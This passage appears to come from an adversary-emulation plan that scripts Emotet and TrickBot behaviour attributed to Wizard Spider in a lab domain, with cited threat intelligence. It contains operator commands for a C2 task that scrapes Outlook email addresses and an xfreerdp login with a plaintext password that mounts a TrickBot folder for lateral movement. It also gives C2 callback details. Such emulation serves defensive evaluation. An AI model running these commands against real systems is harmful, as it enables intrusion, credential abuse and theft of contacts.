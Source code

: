 Scrape email addresses from inbox.

```bash
# Emotet has been observed leveraging a module that can scrape email addresses from Outlook.[3][4]

./evalsC2client.py --set-task DOROTHY_DABB41A5 8
```

[Source Code](../../Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L99)

:warning: Sign out of RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

<br>

### :microscope: Cited Intelligence

* <https://unit42.paloaltonetworks.com/emotet-command-and-control/>

* <https://www.cisecurity.org/white-papers/ms-isac-security-primer-emotet/>

* <https://securityintelligence.com/new-banking-trojan-icedid-discovered-by-ibm-x-force-research/>

* <https://global.ahnlab.com/global/upload/download/asecreport/ASEC%20REPORT_vol.88_ENG.pdf>

<br>

## Step 4 - Move Laterally Deploy TrickBot

:microphone: `Voice Track:`

During this step, Wizard Spider uses bill's credentials to RDP into Toto.

Wizard Spider uploads and executes a malicious EXE based on TrickBot.

Trickbot is uploaded to target using an RDP-mounted network share.

Once executed, Trickbot calls back to the C2 server over HTTP.

```
Compromised user info:

User:	bill@oz.local

System: 10.0.0.8 / toto

File Write (Tribot EXE): %AppData%\uxtheme.exe

C2:	192.168.0.4:447 HTTP - no encryption or obfuscation
```

---

### ☣️ Procedures

Change your RDP tab name to "RDP into Toto"

RDP into Toto and create RDP drive that has TrickBot folder structure

```bash
# Wizard Spider has used RDP for lateral movement.[5][2][8]

cd ~/
xfreerdp +clipboard /u:oz\\bill /p:"Fall2021" /v:10.0.0.8 /drive:X,wizard_spider/Resources/TrickBot/WNetval
```
